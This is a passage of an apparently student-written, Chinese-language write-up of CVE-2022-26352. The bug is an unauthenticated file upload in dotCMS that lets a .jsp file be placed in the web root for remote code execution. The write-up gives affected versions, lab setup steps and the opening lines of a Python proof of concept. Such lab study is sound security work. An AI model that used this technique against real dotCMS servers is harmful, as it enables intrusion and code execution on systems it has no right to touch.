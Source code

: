 ```yaml
---
tags: CVE
---
```

# cve-2022-26352

## 作者 
黃妤婷: Katherine - 國立成功大學資訊工程學系四年級

## 漏洞名稱
Dotcms SI-62 任意文件上傳漏洞

##  漏洞說明/描述(成因)
#### 漏洞簡介:

Dotcms dotCMS是美國dotCMS（Dotcms）公司的一套内容管理系統（CMS）。

該漏洞是由於DotCMS 存在未授權的文件上傳 port ，且對文件名以及文件內容過濾不嚴格，導致攻擊者可以將一個 .jsp 的文件上傳到 dotCMS 的 webapp/ROOT 目錄，從而允許執行 RCE 。

#### 漏洞類型:
* RCE
    > 遠端程式碼執行（Remote Code Execution)

#### 影響範圍:
* DotCMS < 22.03
* DotCMS < 21.06.7
* DotCMS < 5.3.8.10

## 漏洞環境建置

### docker-compose.yaml
1. 從[這裡](https://github.com/h1ei1/POC/tree/main/CVE-2022-26352)下載 `docker-compose.yml` 並在該目錄下執行 `docker-compose up -d` 來啟動環境
2. 而後訪問 `https://{ip}:8443/dotAdmin`

![](https://i.imgur.com/i6QbVai.png)


## Metasploit testcase
* 以下是我在靶機內所寫的 python POC:
    ```python
    import requests, urllib3, sys
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    def find_base_url(args):
        base_url = 'https://{}:{}'.format(args['rhost'], args['RPORT'])
        return base_url
